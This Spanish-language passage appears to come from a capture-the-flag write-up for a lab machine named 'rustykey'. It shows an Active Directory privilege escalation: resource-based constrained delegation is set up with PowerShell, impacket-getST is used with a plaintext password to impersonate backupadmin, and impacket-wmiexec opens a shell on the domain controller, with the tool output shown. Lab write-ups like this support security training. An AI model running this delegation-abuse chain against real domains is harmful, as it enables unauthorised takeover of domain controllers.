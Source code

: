 Vemos que hemos obtenido acceso con el usuario `mm.turner`.

## Escalate Privileges

Si nos vamos a nuestro `BloodHound` a ver los privilegios que tiene dicho usuario...

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-15 140506.png" alt=""><figcaption></figcaption></figure>

Vemos que somos del grupo `DELEGATIONMANAGER` y que este a su vez tiene los privilegios de `AddAllowedToAct` sobre el `DC` del dominio entero, por lo que podremos escalar privilegios maximos con esta vulnerabilidad de esta forma:

Primero vamos hacer que `IT-COMPUTER3` puede obtener `tickets de servicio` para **cualquier servicio** en el `DC`. Esto lo hacemos mediante **Resource-Based Constrained Delegation (RBCD)**

```powershell
shell
powershell.exe
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
```

Ahora vamos con dicho usuario exportarnos la variable del `TGT` de nuevo y ya que podemos obtener un `TGS` de cualquier servicio del `DC`, obtendremos el del `backupadmin` que es el que nos interesa.

```shell
ntpdate rustykey.htb ; impacket-getST -dc-ip dc.rustykey.htb -spn cifs/dc.rustykey.htb -impersonate backupadmin -k rustykey.htb/IT-COMPUTER3$:'Rusty88!'
```

Info:

```
2025-10-15 13:55:01.774017 (-0700) +7.873133 +/- 0.015349 rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 7.873133
/home/kali/Desktop/rustykey/bloodyAD/.venv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating backupadmin
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in backupadmin@cifs_dc.rustykey.htb@RUSTYKEY.HTB.ccache
```

Ahora vamos acceder por `WinRM` mediante este `TGS` obtenido de esta forma:

```shell
export KRB5CCNAME=backupadmin@cifs_dc.rustykey.htb@RUSTYKEY.HTB.ccache
impacket-wmiexec -k -no-pass rustykey.htb/backupadmin@dc.rustykey.htb
```

Info:

```
/home/kali/Desktop/rustykey/bloodyAD/.venv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
rustykey\backupadmin
```
